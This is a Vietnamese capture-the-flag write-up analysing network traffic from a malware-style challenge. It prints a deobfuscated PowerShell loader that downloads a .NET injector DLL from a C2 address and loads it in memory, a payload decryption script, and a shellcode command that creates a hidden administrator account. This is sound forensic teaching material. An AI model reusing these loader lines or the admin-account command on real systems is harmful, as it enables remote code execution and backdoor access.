









# Challenge Red Failure

## 1. Đầu vào challenge

Từ `Statistics -> Protocol Hierarchy` thấy được các gói HTTP khá ít nên có thể đi từ đây trước.



Khi sử dụng filter `http`, thấy ngay ở đầu có request tải script PowerShell và script này đang bị obfuscate.





Sau khi deobfuscate:



---

## 2. Phân tích PowerShell stage đầu

### Nhận xét

Các giá trị quan trọng gồm:

- Địa chỉ C2/server: `147.182.172.189`
- Port: `80`
- DLL được tải về: `user32.dll`
- Shellcode/payload được tải về: `9tVI0`
- Password dùng để giải mã payload: `z64&Rx27Z$B%73up`
- Process image dùng để inject: `C:\Windows\System32\svchost.exe`
- DLL giả mạo/tham số DLL: `msvcp_win.dll`
- Method được chọn: `currentthread`

Đoạn này đáng chú ý:

```powershell
${dAtA} = (IWR -UseBasicParsing "http://${B}:${C}/${D}").Content
${AssEM} = (ls 'vaRIaBLe:yUE51').Value::Load.Invoke(${dAtA})
```

Nó tải file `user32.dll` từ server rồi dùng `Reflection.Assembly.Load()` để load DLL trực tiếp trong memory, không cần ghi DLL ra đĩa theo cách thông thường.

Tiếp theo, script gọi class và method trong DLL:

```powershell
${clASS} = ${asSEm}.GetType.Invoke('DInjector_Detonator', ${fLAGs})
${EnTRY} = ${clASS}.GetMethod.Invoke('Boom', ${fLAGS})
```

Điều này cho thấy `user32.dll` thực chất không phải DLL Windows bình thường, mà là một .NET assembly chứa class `DInjector_Detonator` và method `Boom`.

Đồng thời trong các traffic HTTP cũng thấy có request tải file `user32.dll` và `9tVI0`.



Vậy giờ cần export 2 file này ra để phân tích tiếp.

---

## 3. Phân tích `user32.dll`

Mở file `user32.dll` bằng ILSpy.



Trong file `user32.dll`, class `AES` chịu trách nhiệm giải mã payload được tải từ `/9tVI0`.

Constructor của class nhận vào `password`, sau đó tạo AES key bằng cách hash password với SHA256:

```csharp
key = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes(password));
```

Điều này có nghĩa là password không được dùng trực tiếp làm key, mà được chuyển thành key 32 byte thông qua SHA256.

Trong hàm `Decrypt`, DLL xử lý dữ liệu mã hóa như sau:

```csharp
byte[] iV = data.Take(16).ToArray();
byte[] data2 = data.Skip(16).Take(data.Length - 16).ToArray();
```

Tức là:

- 16 byte đầu của file `/9tVI0` là `IV`
- phần còn lại là `ciphertext`

Sau đó DLL cấu hình AES:

```csharp
aesCryptoServiceProvider.Mode = CipherMode.CBC;
aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
```

Vì vậy có thể kết luận payload `/9tVI0` được mã hóa bằng:

- `AES-CBC`
- `Padding PKCS7`
- `Key = SHA256(password)`
- `IV = 16 byte đầu của file`
- `Ciphertext = phần còn lại của file`


Sử dụng script để decrypt file payload `9tVI0`:

```python
from pathlib import Path
from hashlib import sha256
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

password = "z64&Rx27Z$B%73up"
data = Path("9tVI0").read_bytes()

key = sha256(password.encode("utf-8")).digest()
iv = data[:16]
ct = data[16:]

pt = AES.new(key, AES.MODE_CBC, iv).decrypt(ct)
pt = unpad(pt, 16)

Path("shellcode.bin").write_bytes(pt)
```

---

## 4. Phân tích shellcode

Sau khi thu được file `shellcode.bin`, sử dụng `strings` hay `file` để quét nhanh thì chưa thấy được gì hữu ích. Thử dùng `objdump` để disassemble file dưới dạng raw x86 shellcode thì thấy được một đoạn decoder stub ở đầu file.

```bash
objdump -D -b binary -m i386 -Mintel shellcode.bin
```



Shellcode sử dụng kỹ thuật `fnstenv [esp-0xc]` rồi `pop edx` để lấy địa chỉ hiện tại của chính nó trong memory. Sau đó, các lệnh như `xor DWORD PTR [edx+0x19], esi` và `add esi, DWORD PTR [edx+0x19]` cho thấy shellcode đang decrypt mã vùng dữ liệu.

Vậy các chuỗi quan trọng chưa tồn tại ở dạng plaintext trong file, mà chỉ xuất hiện sau khi decoder stub chạy và giải mã payload bên trong.


Sử dụng `scdbg` để phân tích `shellcode.bin`. Đây là một shellcode emulator, tức là nó không đọc file theo kiểu tĩnh như `strings`, mà mô phỏng quá trình shellcode được nạp vào memory và bắt đầu thực thi.

Khi chạy bằng `scdbg`, tool sẽ cho shellcode chạy trong môi trường giả lập. Vì vậy decoder stub có thể thực hiện vòng lặp decrypt của nó. Sau bước tự decrypt, nếu shellcode gọi các Windows API như `WinExec`, `CreateProcess`, `LoadLibrary`, `GetProcAddress`,... thì `scdbg` sẽ mô phỏng các API đó và hiển thị tham số được truyền vào. `scdbg` không thực thi lệnh thật trên hệ thống như khi chạy payload trực tiếp.



Kết quả cho thấy shellcode gọi `WinExec` với command tạo user Windows:

```cmd
net user jmiller "HTB{00000ps_1_t0t4lly_f0rg0t_1t}" /add; net localgroup administrators jmiller /add
```

Command này tạo user `jmiller` và thêm user đó vào group `administrators`. Trong command, password của user được đặt là chuỗi flag.

---

## 5. Flag

```text
HTB{00000ps_1_t0t4lly_f0rg0t_1t}
```

---

## 6. Flow


